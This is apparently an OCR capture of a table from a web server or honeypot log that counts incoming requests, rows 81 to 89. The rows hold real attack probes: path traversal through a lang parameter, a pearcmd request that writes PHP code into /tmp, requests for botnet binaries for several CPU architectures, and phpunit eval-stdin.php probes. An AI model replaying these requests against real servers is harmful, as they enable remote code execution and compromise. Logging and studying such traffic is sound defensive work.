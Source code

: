 |  81 |                     5 | GET /index.php?lang=../../../../../../../../tmp/index1 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
|  82 |                     5 | GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?echo(md5(\x22hi\x22));?>+/tmp/index1.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
|  83 |                     5 | GET /hiddenbin/Space.arm HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
|  84 |                     5 | GET /armv4l HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|  85 |                     5 | GET /nshkx86 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
|  86 |                     5 | GET /hiddenbin/Space.m68k HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
|  87 |                     5 | GET /nsharm5 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
|  88 |                     5 | GET /lib/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|  89 |                     5 | GET /lib/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |